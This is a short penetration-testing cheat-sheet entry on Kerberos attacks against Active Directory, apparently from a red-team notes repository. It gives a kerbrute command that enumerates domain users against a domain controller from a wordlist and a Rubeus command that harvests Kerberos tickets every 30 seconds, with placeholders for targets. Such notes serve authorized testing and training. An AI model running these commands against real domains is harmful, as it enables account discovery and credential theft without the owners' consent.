 # Kerberos

#### Enumerating users

```bash
./kerbrute userenum --dc <DC> -d <DOMAIN> <USERNAME_WORDLIST_FILENAME>
```

#### Harvesting tickets

* **Rubeus** (every 30 seconds):

```powershell
.\Rubeus.exe harvest /interval:30
```
